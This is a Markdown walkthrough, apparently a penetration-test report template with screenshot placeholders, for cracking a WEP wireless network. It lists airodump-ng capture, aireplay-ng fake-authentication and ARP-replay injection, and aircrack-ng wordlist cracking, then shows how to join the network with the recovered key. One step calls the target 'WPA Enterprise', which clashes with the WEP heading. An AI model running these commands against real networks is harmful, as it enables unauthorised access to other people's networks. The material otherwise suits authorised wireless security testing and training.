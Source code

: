 # Attacking WEP

1. Run an `airodump-ng`  scan: 

```
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --band abg
```

We find our WPA Enterprise network of interest:

**Screenshot of initial airodump screenshot goes here:**
![](image.png)

  

  

  

2. We try a more targeted scan: 

```
sudo airodump-ng wlan0mon --bssid <BSSID>  --channel <CHANNEL> -w <FILE_PREFIX> --output-format pcap
```

**Screenshot of targeted airodump goes here:**

![](image.png)

  

  

  

3. If we see that there is a client connected, use the `besside-ng`  tool to get the password, `aireplay-ng`  to create a fake access point and to do an ARP-request replay attack to generate traffic on the fake access point at the same time. We can open different terminal windows to run the commands simultaneously. 

```bash
# 1. Stop the airodump-ng scan

# 2. stop monitoring on wlan0
sudo airmon-ng stop wlan0

# 3. Kill any processes that may interfere
sudo airmon-ng check kill

# 4. Run besside-ng
sudo besside-ng -c <CHANNEL> -b <BSSID> wlan0

# 5. Take a pcap of the wireless traffic
sudo airodump-ng -c <CHANNEL> --bssid <Wifi AP MAC Address> -w wep wlan0 --output-format pcap

# 6. Create a fake access point
sudo aireplay-ng -1 3600 -q 10 -a <Wifi AP MAC Address> wlan0

# 7. Run an ARP request attack
sudo aireplay-ng --arpreplay -b <Wifi AP MAC Address> -h <MAC Address of Client> wlan0

```

**Screenshot of attack:**

![](image.png)

  

  

  

4. In another terminal window, we can crack the pcap file we captured in the previous step. 

```
sudo aircrack-ng <PCAP FILE> /usr/share/wordlists/rockyou.txt

sudo aircrack-ng <PCAP FILE> /usr/share/john/password.lst

# Convert key to ASCII
sudo aircrack-ng -l ascii-key wep.cap
```

**Screenshot of cracking pcap file:**

⁠![](image.png)

  

  

  

5. After finding the key, we can create a wireless configuration file to connect to the network: 

```
network={
  ssid="<SSID>"
  key_mgmt=NONE
  wep_key0=<PASSWORD>
  wep_tx_keyidx=0
}

```

  

Connect to the wireless network: 

```
sudo wpa_supplicant -D nl80211 -i wlan0 -c wep.conf

```

  

In another terminal, grab another IP address: 

```
sudo dhclient wlan0 -v

```

  

We can then attempt to connect to the default gateway endpoint (This IP should be address `x.x.x.1` ): 

```
firefox x.x.x.1

```

  

**Screenshot of connecting to wireless network:**

![](image.png)
